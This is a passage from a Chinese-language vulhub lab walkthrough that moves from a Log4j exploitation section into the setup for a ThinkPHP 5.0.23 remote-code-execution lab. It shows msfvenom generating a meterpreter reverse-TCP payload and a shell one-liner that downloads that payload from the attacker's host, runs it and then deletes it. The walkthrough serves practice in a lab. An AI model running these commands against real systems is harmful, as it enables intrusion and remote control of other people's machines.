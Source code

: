 ```
msf6 exploit(multi/handler) > run
```

生成 payload

```
┌──(root㉿kali)-[~]
└─# msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=kali.local lport=6666 -f elf -o /var/www/html/nc2msf6666
```

启动 Web 服务

```
┌──(root㉿kali)-[~]
└─# systemctl start apache2.service
```

在 nc 中控制目标执行命令下载 payload

```
curl -so /tmp/nc2msf6666 http://kali.local/nc2msf6666;chmod +x /tmp/nc2msf6666;/tmp/nc2msf6666;rm -f /tmp/nc2msf6666
```

> 下载 reverse_tcp_shell
>
> 添加执行权限
>
> 执行
>
> 删除
> ![在 nc 中控制目标执行命令下载 payload](./../../../../../images/vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E5%9C%A8%20nc%20%E4%B8%AD%E6%8E%A7%E5%88%B6%E7%9B%AE%E6%A0%87%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4%E4%B8%8B%E8%BD%BD%20payload.png)

### 2.6 thinkphp

### 2.6.1[ThinkPHP5 5.0.23 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/thinkphp/5.0.23-rce/README.zh-cn.md)

**环境配置**

列出 thinkphp 漏洞

```
[root@centos 5.0.23-rce]# ls /root/vulhub/thinkphp
2-rce  5.0.23-rce  5-rce  in-sqlinjection  lang-rce
```

切换到靶场目录
